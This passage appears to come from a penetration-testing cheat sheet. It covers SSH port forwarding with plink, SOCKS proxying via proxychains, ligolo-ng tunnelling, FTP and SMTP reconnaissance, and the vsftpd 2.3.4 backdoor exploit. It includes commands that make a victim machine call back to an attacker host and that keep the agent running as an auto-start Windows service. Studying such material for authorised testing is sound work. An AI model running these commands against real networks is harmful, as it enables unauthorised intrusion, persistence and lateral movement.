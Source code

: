 ```bash
.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -R [SSH_SERVER_PORT]:[DESTINATION_SERVER]:[DESTINATION_PORT] 
```
- <mark>Dynamic Port Forward</mark>
```bash
#sets up your SSH connection as a SOCKS proxy.This can be beneficial if you're in a network that restricts your access to certain sites.
.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -D [SSH_CLIENT_PORT]
#However, not all applications natively support routing their traffic through a SOCKS proxy. That's where tools like `proxychains` come into play.
1. modify the `/etc/proxychains.conf`
2. proxychains command_you_want_to_run
```
#### ligolo-ng
```shell
# Attacker Machine
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
./ligolo-proxy -selfcert
# Victim Machine
# Linux: 
	nohup ./agent -ignore-cert -connect [attack_IP]:11601 &
# Windows:
	1. Start-Process -FilePath "[Path_To_agent]" -ArgumentList "-ignore-cert -connect [attack_IP]:11601" -NoNewWindow
	2. # Completely detach from session
		1. sc.exe create ssh binPath= "[Path_To_agent] -ignore-cert -connect [attack_IP]:11601" start=auto
		2. sc.exe start ssh
# After connection
session [ID]
sudo ip route add [remote_address] dev ligolo
start_tunnel
```
# Port-Specific
### Port-21-FTP
- <mark>Reconnaissance</mark>
```bash
#Check for FTP Anonymous Login
nmap -script ftp-anon <IP address> -p 21
```
- <mark>Exploit</mark>
```bash
#vsftpd V2.3.4 is vulnerable to command execution facilitated by a malicious backdoor through a supply chain attack
searchsploit -m 49757
	OR
exploits/unix/ftp/vsftpd_234_backdoor
```
### Port-25-SMTP
- <mark>Reconnaissance</mark>
```bash
#Enumerate SMTP users
auxiliary/scanner/smtp/smtp_enum
# Interesting commands:
# VRFY: VRFY request asks the server to verify an email address
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient 
# EXPN: EXPN asks the server for the membership of a mailing list
```